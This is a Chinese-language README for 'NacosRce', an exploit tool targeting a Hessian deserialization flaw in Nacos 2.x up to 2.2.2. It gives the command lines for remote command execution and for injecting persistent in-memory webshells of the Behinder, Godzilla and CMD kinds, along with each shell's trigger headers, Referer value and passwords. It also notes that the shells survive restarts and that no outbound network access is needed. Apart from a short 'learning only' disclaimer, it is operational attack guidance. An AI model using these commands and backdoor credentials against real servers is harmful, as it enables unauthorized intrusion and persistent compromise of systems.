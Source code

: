 ## Nacos Hessian 反序列化漏洞利用工具 v0.5

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />
<br />注意：工具仅供学习使用，请勿滥用，否则后果自负！

<br />**食用方式 **<br />
1. 自动注入内存马并执行命令	java -jar NacosRce.jar Url Jraft端口 "Command"
   <br />	
   ```shell
   java -jar NacosRce.jar http://192.168.90.1:8848/nacos  7848 "whoami"
   ```
2. 只注入内存马
   ```shell
      java -jar NacosRce.jar http://192.168.90.1:8848/nacos 7848 memshell
   ```
   
   <br />


<br />内存马说明：
<br />一、冰蝎内存马：
   <br />1、需要设置请求头x-client-data:rebeyond
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码rebeyond
   ![img.png](img.png)
<br />二、哥斯拉内存马：
   <br />1、需要设置请求头x-client-data:godzilla
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码是pass 和 key
<br />![img_1.png](img_1.png)
<br />三、CMD内存马：
   <br />1、需要设置请求头x-client-data:cmd
   <br />2、设置Referer:https://www.google.com/
   <br />3、请求头cmd:要执行的命令
<br />![img_2.png](img_2.png)
v0.5版本实现了：
<br />1、不出网漏洞利用
<br />2、可多次发起漏洞利用
<br />3、同时注入冰蝎/哥斯拉/CMD内存马
<br />4、内存马对nacos多版本进行了兼容
<br />
<br />tips:
<br />1、请用jdk1.8
<br />2、适用于 Nacos 2.x <= 2.2.2
<br />3、非集群的也能打哦
<br />4、此内存马重启nacos依然存活
<br />
<br />关于Windows
<br />如用下面的方式执行，注入内存马时会生成临时文件 C:\Windows\Temp\nacos_data_temp 和 C:\Windows\Temp\nacos_data_temp.class 文件
```shell
java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami" windows
```
<br />如果没有在最后加 windows，临时文件会在 /tmp/nacos_data_temp /tmp/nacos_data_temp.class，所以权限足够的话，不指定windows也能打成功
<br />windows 没打成功也许是因为没权限操作C盘或其他原因
<br />
<br />
项目地址：https://github.com/c0olw/NacosRce
推荐哥斯拉Nacos后渗透插件：https://github.com/pap1rman/postnacos
<br />参考文章
<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
